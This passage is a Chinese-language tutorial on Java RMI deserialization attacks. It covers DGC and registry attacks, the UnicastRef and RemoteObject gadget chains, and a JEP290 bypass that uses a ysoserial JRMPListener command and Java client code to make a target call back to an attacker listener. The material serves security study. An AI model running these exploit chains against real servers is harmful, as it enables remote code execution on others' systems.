            IMyRemote myRemote = (IMyRemote) registry.lookup("myRemote");
            // 调用方法
            myRemote.saySth("Hello");
    
            // 自定义 DGC clean 请求并向服务中心发起攻击
            attackRegistryDGCClean(registry);
        }
        
        private static void attackRegistryDGCClean(Registry registry) throws Exception {
            // 先拿到和注册中心通讯的 UnicastRef
            UnicastRef unicastRef = (UnicastRef) ((RegistryImpl_Stub) registry).getRef();
    
            // 通过 UnicastRef，获取到 LiveRef
            LiveRef liveRef = unicastRef.getLiveRef();
    
            // 再通过反射拿到 TCPEndpoint
            Class<? extends LiveRef> tcpEndpointClass = liveRef.getClass();
            Field epField = tcpEndpointClass.getDeclaredField("ep");
            epField.setAccessible(true);
            TCPEndpoint tcpEndpoint = (TCPEndpoint) epField.get(liveRef);
    
            // 根据客户端在 DGCImpl_Stub 被创建的流程，拿到其内部类 EndpointEntry 类，调用它的 lookup 方法（返回值是 EndpointEntry）并创建 DGCImpl_Stub
            Class<?> DGCClient_EndpointEntryClass = Class.forName("sun.rmi.transport.DGCClient$EndpointEntry");
            Method lookupMethod = DGCClient_EndpointEntryClass.getDeclaredMethod("lookup", Endpoint.class);
            lookupMethod.setAccessible(true);
            // lookup 是静态方法，第一个参数传 null
            Object endpointEntry = lookupMethod.invoke(null, tcpEndpoint);
    
            Field dgcField = endpointEntry.getClass().getDeclaredField("dgc");
            dgcField.setAccessible(true);
            DGCImpl_Stub dgc = (DGCImpl_Stub) dgcField.get(endpointEntry);
    
            // 本质上就是拿到 DGC/DGCImpl_Stub 通信时用到的 UnicastRef，这里和上面的 unicastRef 对比，其 ObjID 发生了改变。
            UnicastRef unicastRef2 = (UnicastRef) dgc.getRef();
    
            Operation[] operations = new Operation[]{new Operation("void clean(java.rmi.server.ObjID[], long, java.rmi.dgc.VMID, boolean)"), new Operation("java.rmi.dgc.Lease dirty(java.rmi.server.ObjID[], long, java.rmi.dgc.Lease)")};
            // newCall 的第一个参数是 this，即 DGCImpl_Stub 这里就是 dgc
            RemoteCall call = unicastRef2.newCall(dgc, operations, 1, -669196253586618813L);
            try {
                java.io.ObjectOutput out = call.getOutputStream();
                out.writeObject(getSerializedCC1Object());
            } catch (java.io.IOException e) {
                throw new java.rmi.MarshalException("error marshalling arguments", e);
            }
            unicastRef2.invoke(call);
            unicastRef2.done(call);
        }
    }
    ```

3. 同样的，ysoserial 的 JRMPClient 就是通过 DGC 攻击的，不过 ysoserial 里的实现方法是用 socket 重写 JRMP 协议。

#### 2.4.3 反打客户端

1. 客户端通过 DGC 通讯同样有反序列化，因此 ysoserial 的 exploit/JRMPListener 就是这个功能。

## 3. RMI 中的反序列化链

1. 在将高版本绕过前，需要聊一下 RMI 中的反序列化链。高版本的绕过不仅仅是从黑白名单绕过，而是将着重点变成了“身份”的交换。高版本的补丁着重点在 Server 端和 Registry 端，因此**如果能让他们变成“客户端”发起请求，那样黑白名单就好解决了。**
2. 链体的类都是白名单中的类，同时其作用并不是直接命令执行。

### 3.1 `UnicastRemoteObject` 链 -- TODO 这个链需要说吗？

1. `java.rmi.server.UnicastRemoteObject` 通常是远程接口实现类的父类，在最开始的地方提到过，或者是 `UnicastRemoteObject.exportObject(myRemote, 0)` 来创建动态代理并随机监听本机端口以发布未继承的远程接口实现类。
    因此将其传给 Registry 进行绑定时，必然涉及序列化，因此需要执行 `exportObject()` 的相关操作。来看一下它的 `readObject()`：
    
    跟进 `reexport()`，其执行了 `exportObject()` 方法：
    
    在 [1.2.1](# 1.2.1 远程对象创建) 的第 3 小点中分析了 `UnicastRemoteObject.exportObject()` 最终执行到 `TCPTransport.listen()`。

### 3.2 `UnicastRef` 链

1. 讲这个链之前，需要补充一下 `Externalizable` 接口。与 `Serializable` 相比， `Externalizable` 是使用更加自由、性能更好的序列化接口。但相对的，需要开发人员自己一一指出需要序列化的对象，指定序列化的顺序。
    实现类需要实现 `writeExternal()` 和 `readExternal()` 来指定哪些属性被序列化和反序列化。
    有一些注意点：
    
    1. 使用 `Externalizable` 时，必须按照**写入时的确切顺序**读取所有字段状态。否则会产生异常。
    2. 默认构造函数必须是 `public`。
2. 来看一下 `UnicastRef`：
    
    反序列化时从流中还原 `LiverRef ref`，接着跟进：
    
    根据注释，`if` 进去没有其他行为，因此考虑 `else`，跟进：
    
    最终其实是执行了 `DGCClient#EndpointEntry.registerRefs()`：
    
    往下看，发现 `makeDirtyCall()`：
    
    也就是 `DGCClient.makeDirtyCall()`：
    
3. 和常规的链相比，一路顺下来，没什么需要额外考虑拼接的地方。初始化一个 `UnicastRef`， 其中的 `LiveRef ref` 指定连接的恶意服务器（也就是搭配 JRMPListener）来使用。代码大概可以如下：
    ```java
    public static void main(String[] args) throws Exception {
        // 指定的 JRMPListener 地址于端口
        String host = "127.0.0.1";
        int    port = 12233;
    
        ObjID       id  = new ObjID(new Random().nextInt()); // RMI registry
        TCPEndpoint te  = new TCPEndpoint(host, port);
        UnicastRef  ref = new UnicastRef(new LiveRef(id, te, false));
    
        serialize(ref);
    }
    // 序列化，返回字节码字符串
    public static String serialize(Object payload) {
        // 创建恶意类
        // 创建文件对象
        ObjectOutputStream out = null;
        try {
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            out = new ObjectOutputStream(byteArrayOutputStream);
            out.writeObject(payload);
            return Arrays.toString(byteArrayOutputStream.toByteArray());
        } catch (IOException e) {
            throw new RuntimeException(e);
        } finally {
            try {
                if (out != null) {
                    out.flush();
                    out.close();
                }
            } catch (IOException e) {
                throw new RuntimeException(e);
            }
        }
    }
    ```

4. 这个链通过攻击方发到受害者服务器，从而让受害者服务器反向发起对恶意 VPS（JRMPListener）的请求。

    > 这条链是 lpwd 师傅提交的利用链，是在 ysoserial 的精简，也就是下面要说的链。

### 3.3 `RemoteObject`

1. `RemoteObject` 是几乎所有 RMI 远程调用类的父类。这个类也可以用来触发反序列化漏洞。来看一下它的 `readObject()`：
    
    反序列化的时候会初始化成员变量 `RemoteRef ref`，然后调用其 `ref.readExternal(in)`。
2. 所以思路就有了：**随便找一个 `RemoteObject` 的子类**，其包裹 `UnicastRef（继承 RemoteRef）`，即调用上一个链（延长）。

## 4. JEP290

### 3.1 补丁说明

1. JEP290 补丁：

    1. 提供一个限制反序列化类的机制，白名单或者黑名单。
    2. 限制反序列化的深度和复杂度。
    3. 为RMI远程调用对象提供了一个验证类的机制。
    4. 定义一个可配置的过滤机制，比如可以通过配置 properties 文件的形式来定义过滤器。

    简单来说就是 ysoserial 的链都加入黑名单了。
    JEP290 支持版本：8u121、7u131、6u141。

2. 关注的点主要有两个：

    1. Registry 注册中心和 Server 服务端必须在一起。`RegistryImpl_Skel#dispatch()` 处进行了检查：
        
        显然，对 `bind()` 进行检查，跟进去看一下：
        
        也就是说高版本下**不存在服务端和注册中心之间**的相互远程攻击了，不过想打服务端的话，现在打注册中心也可以了。

    2. 黑白名单，`RegistryImpl_Skel` 里面的对象反序列化时会进行白名单校验：
        

        ```java
        if (var2.isPrimitive()) {
            return Status.ALLOWED;
        } else {
            return String.class != var2 && !Number.class.isAssignableFrom(var2) && !Remote.class.isAssignableFrom(var2) && !Proxy.class.isAssignableFrom(var2) && !UnicastRef.class.isAssignableFrom(var2) && !RMIClientSocketFactory.class.isAssignableFrom(var2) && !RMIServerSocketFactory.class.isAssignableFrom(var2) && !ActivationID.class.isAssignableFrom(var2) && !UID.class.isAssignableFrom(var2) ? Status.REJECTED : Status.ALLOWED;
        }
        ```

        总之是引入了白名单。
        同样的，这里是注册中心处引用了，DGC 层的 `DGCImpl` 也是：
        
        显然 DGC 层的白名单更严格一点。

### 3.2 底层原理

1. 让攻击者发送 payload 让目标服务器发起一个 JRMP 请求去链接客户的 JRMP 服务器。因此上文提到的攻击链就有了用武之地。
2. 攻击的链路过程大致如下：
    1. 攻击者向目标服务器发送 Payload（RMI 原生链）。
    2. 目标服务器反序列化 Payload，从而发起对攻击者的 JRMPListener 的请求（此时完成身份转换）。
    3. JRMPListener 返回恶意 Payload2（例如 CC），这时目标服务器对其进行反序列化，从而触发命令执行。
3. 目前的关键在于入口处：也就是发送第一段 Payload 的地方。可以看到 DGC 层的过滤更为严格，因此通过 DGC 来传输第一段 Payload 是不现实的。所以发送第一段 Payload 的方法就是通过 Client 来攻击 Server 和 Registry。不过这需要知道 Server 远程对象的相关信息，相对于通过 DGC 还是有利用门槛的。

### 3.3 利用

1. 首先服务端开放端口：
    ```java
    public static void main(String[] args) throws Exception {
        // 实例化自定义类R
        IMyRemote myRemote = new MyRemoteImpl();
    
        // 通过 UnicastRemoteObject 将服务导出为远程服务接口，前提是远程接口没有继承 UnicastRemoteObject
        // IMyRemote myExportedRemote = (IMyRemote) UnicastRemoteObject.exportObject(myRemote, 0);
    
        // 通过注册中心，将 RMI 服务注册到 1099 端口
        // 远程拿到注册对象，这里为了演示方便，就先创建再远程获取
        LocateRegistry.createRegistry(1099);
        Registry registry = LocateRegistry.getRegistry("127.0.0.1", 1099);
        // 如果注册中心和服务端在一起，上面的方法就要注释掉，改用下面的方法
        // Registry registry = LocateRegistry.createRegistry(1099);
        // 注册，并将服务命名为 myRemote
        registry.rebind("myRemote", myRemote);
    }
    ```

2. JRMPListener 发起监听（所使用 JDK 为 121，因此不要用 CC1）：
    ```bash
    java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener [ip] 7777 CommonsCollections6 calc.exe
    ```

3. 模仿 JRMPClient 发起攻击：
    ```java
    public static void main(String[] args) throws Exception {
        // 通过注册中心连接到服务器
        Registry registry = LocateRegistry.getRegistry("127.0.0.1", 1099);
        // 通过服务名查找服务，并转型成接口
        IMyRemote myRemote = (IMyRemote) registry.lookup("myRemote");
        // 调用方法
        myRemote.saySth("Hello");
    
        // 绕过 JEP 290
        attackBypassJEP290(registry);
    }
    /**
      * 绕过 JEP290，通过 ysoserial 的 JRMPListener 来攻击服务端
      * 这里是模仿 registry 的 lookup 来发起攻击，也就是 Client 攻击 Registry
      */
    private static void attackBypassJEP290(Registry registry) throws Exception {
        // 7777 为 JRMPListener 的开放端口
        LiveRef liveRef = new LiveRef(new ObjID(new Random().nextInt()), new TCPEndpoint("127.0.0.1", 7777), false);
        // 创建 UnicastRef
        UnicastRef payloadObj = new UnicastRef(liveRef);
        try {
            // 拿到 RegistryImpl_Stub 的 UnicastRef
            UnicastRef unicastRef = (UnicastRef) ((RegistryImpl_Stub) registry).getRef();
    
            // 模拟 RMI RegistryImpl_Stub 的 lookup，手动对 Registry 发起请求
            Operation[] operations = new Operation[]{new Operation("void bind(java.lang.String, java.rmi.Remote)"),
                                                     new Operation("java.lang.String list()[]"),
                                                     new Operation("java.rmi.Remote lookup(java.lang.String)"),
                                                     new Operation("void rebind(java.lang.String, java.rmi.Remote)"),
                                                     new Operation("void unbind(java.lang.String)")};
            StreamRemoteCall call = (StreamRemoteCall) unicastRef.newCall((RemoteObject) registry, operations, 2, 4905912898345647071L);
            ObjectOutput out = call.getOutputStream();
            // 序列化链条
            out.writeObject(payloadObj);
            unicastRef.invoke(call);
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }
    ```

4. 成功：
    

## 5. 高版本绕过 - JDK8u231

1. todo

## 6. 总结

1. IDEA diagram 可以生成类图。
2. 找一个类的使用 Usage，除了本身，同时还要考虑其**向上转型**和**动态代理**的地方。
3. RMI 中身份转换/诱导攻击的思想。
4. 序列化中的 `Externalizable`。
5. 源序列化接口有类型限制，考虑模仿接口逻辑并发起请求的思想。
